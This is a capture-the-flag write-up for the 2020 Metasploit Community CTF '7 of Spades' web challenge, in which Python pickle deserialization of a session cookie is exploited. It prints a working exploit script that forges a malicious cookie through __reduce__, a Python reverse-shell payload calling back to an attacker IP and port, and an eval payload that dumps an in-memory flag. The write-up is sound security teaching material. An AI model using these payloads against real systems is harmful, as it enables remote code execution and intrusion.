 ```yaml
---
layout: post
title: "2020 Metasploit Community CTF – 7 of Spades (port 8888) [Web]"
categories: ctf
tags: deserialization pickle python web 00xc
date: 2020-12-9 19:00:00 +0100
author: 00xc
---
```


Port 8888 hosts a Python Werkzeug web server. The main page shows a list of Metasploit modules which can be filtered by the options in the top menu.

![](port8888-top.png)

After several minutes of looking around for clues, we realized that feeding in an invalid cookie caused a pickle error. This of course means that our session cookie, which is set after each time we use the page filter, is being deserialized in Python with the `pickle` module. To test this, we took a valid cookie and serialized it locally in a Python shell.

![](port8888-cookie.png)
![](port8888-2.png)

So our request is being treated as a dictionary, where the key is the string `filter` and the value is being used to display certain Metasploit modules.

After a bit of research, we found this post on obtaining remote code execution through Python deserialization. The technique consists of using the `__reduce__` method in a Python class. This method is called upon instantiating a Python object after deserializing it. According to [this StackOverflow answer](https://stackoverflow.com/questions/19855156/whats-the-exact-usage-of-reduce-in-pickler), it is mainly used to rebuild objects that may have some state that cannot be serialized properly, such as file handles. Anyhow, this method returns a tuple of at most 6 elements, but we are only interested in the first two: the first element is a callable object, and the second is itself a tuple of the arguments that will be passed to the callable.

An easy way to test the vulnerability is to run Python’s `time.sleep` function and check the time it takes the server to reply. This is done by creating a new class with a `__reduce__` method that returns the `eval` function as its callable. We then place an instance of this class in the `filter` key of the dictionary we saw earlier. When the server deserializes and instantiates our class, it will execute our `eval` statement.

```python
import pickle
import base64
import requests

class RCE:
    def __reduce__(self):
        return eval, ("__import__('time').sleep(6)", )

original_cookie = "gASVIwAAAAAAAAB9lIwGZmlsdGVylIwTdHlwZSA9PSAiYXV4aWxpYXJ5IpRzLg=="
obj = pickle.loads(base64.b64decode(original_cookie))
obj["filter"] = RCE()
evil_cookie = base64.urlsafe_b64encode(pickle.dumps(obj))

headers = {
    "Cookie": "SESSION=" + evil_cookie.decode(),
    "Host": "metasploit.ctf:8888",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
}
r = requests.get("http://metasploit.ctf:8888/modules", headers=headers)
print(r.text)
```

After running that script and confirming that the sleep is being executed, it was time to get a shell. This is perhaps the step that took most of the time, but after several trials, we figured out that `eval` was a bad candidate, as it does not allow the execution of several statements easily. We also tried using `os.system` unsuccessfully. We ended up using `exec`, modifying the `__reduce__` return value with:
```python
return exec, ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.15.7.228", 6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);', )
```

Once we jumped on the target machine, we realized that we had root access, but the flag was nowhere to be found. We then started to read the server script, `app.py`, and noticed that the following lines were executed on startup.

![](port8888-unlink.png)

This meant that the flag was loaded somewhere in the process’ memory, not on disk. However, since our serialized payload is being run by the server itself, we can just dump the flag to disk by modifying again the return value of `__reduce__` to:

```python
return eval, ('open("flag.txt", "wb").write(FLAG)',)
```

![](7_of_spades.png){:height="300px"}
